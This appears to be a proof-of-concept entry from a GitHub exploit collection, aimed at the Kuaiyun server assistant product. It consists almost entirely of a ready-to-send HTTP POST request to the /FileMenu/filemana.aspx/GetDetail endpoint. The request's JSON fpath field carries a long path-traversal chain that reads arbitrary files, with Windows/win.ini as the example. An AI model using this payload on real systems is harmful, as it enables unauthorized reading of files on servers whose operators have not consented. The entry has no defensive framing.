 # kuaiyun_GetDetail_fileread

from: https://github.com/wy876/POC/blob/main/%E5%BF%AB%E4%BA%91/%E5%BF%AB%E4%BA%91%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%8A%A9%E6%89%8BGetDetail%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
product: 快云服务器助手

```
POST /FileMenu/filemana.aspx/GetDetail HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/json; charset=utf-8
Connection: keep-alive

{"fpath":"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows/win.ini"}
```
